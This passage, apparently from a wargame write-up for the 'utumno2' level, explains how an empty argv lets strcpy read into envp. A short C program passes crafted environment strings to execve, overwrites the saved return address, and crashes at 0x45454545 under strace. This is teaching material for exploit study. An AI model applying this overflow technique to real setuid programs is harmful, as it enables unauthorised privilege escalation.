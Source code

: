 The reason this works is because of how `argc`, `argv`, and `envp` are layed out.

#### Usual Stack Layout:
| --------------------------------\
| argc (number of argv)       \
| -------------------------------- \
| argv[0] (binary being run)\
| argv[1]\
| ...\
| NULL (end of argv)\
| envp[0]\
| envp[1]\
| ...\
| NULL (end of envp)\
| --------------------------------

#### Our Stack Layout:
| --------------------------------\
| argc (number of argv)      \
| -------------------------------- \
| argv[0] (binary being run)\
| NULL (end of argv)\
| envp[0]\
| ...\
| envp[10]\
| NULL (end of envp)\
| --------------------------------

We bypass the initial checks by sending zero arguments, allowing continued execution to the `strcpy()` function call where it copies the 10th (**0xa**) `argv` into the single character buffer. However, because there are no `argv` arguments, it *"indexes past"* `argv` and into `envp`.

This means that we can put some value into the 9th environment variable pointer and that will be copied into the single character buffer by `strcpy()`.

```c
#include <unistd.h>

int main(){
    char *argv[] = {NULL};

    char *envp[] = {"", "", "", "", "", "", "", "",
    "AAAABBBBCCCCDDDDEEEEFFFF",
    NULL};

    execve("/utumno/utumno2", argv, envp);
}
```
Compiling and running the binary using `strace`, we can see that we have overwritten the return address (**EIP**) causing a **Segmentation Fault**.
```bash
{SNIPPED}
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x45454545} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```
